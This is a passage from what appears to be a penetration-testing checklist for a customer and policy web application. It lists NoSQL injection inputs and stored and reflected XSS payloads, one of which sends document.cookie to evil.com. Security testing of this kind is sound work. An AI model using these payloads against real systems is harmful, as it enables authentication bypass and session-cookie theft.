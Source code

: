 ### 4.2 NoSQL Injection (if applicable)

**Procedure**:
```javascript
// Test MongoDB injection in search parameters
email[$ne]=invalid&password[$ne]=invalid
email[$regex]=.*&password[$regex]=.*
email[$where]=sleep(5000)&password=anything
```

---

## 5. CROSS-SITE SCRIPTING (XSS)

### 5.1 Stored XSS Testing

**Procedure**:
1. **Profile Fields Testing**:
   ```html
   <!-- Test in customer name field -->
   <script>alert('XSS')</script>
   <img src="x" onerror="alert('XSS')">
   <svg onload="alert('XSS')">
   "><script>document.location='http://evil.com/'+document.cookie</script>
   ```

2. **Policy Data Fields**:
   ```html
   <!-- Test in policy descriptions, notes -->
   javascript:alert('XSS')
   data:text/html,<script>alert('XSS')</script>
   <iframe src="javascript:alert('XSS')">
   ```

3. **Upload Fields** (if any):
   ```html
   <!-- Test in file names, descriptions -->
   filename"><script>alert('XSS')</script>.pdf
   ```

---

### 5.2 Reflected XSS Testing

**Procedure**:
```bash
# URL parameter testing
http://yourapp.com/customer/search?q=<script>alert('XSS')</script>
http://yourapp.com/customer/policies?filter="><img src=x onerror=alert('XSS')>

# Header injection
X-Forwarded-For: <script>alert('XSS')</script>
User-Agent: <script>alert('XSS')</script>
Referer: <script>alert('XSS')</script>
```

---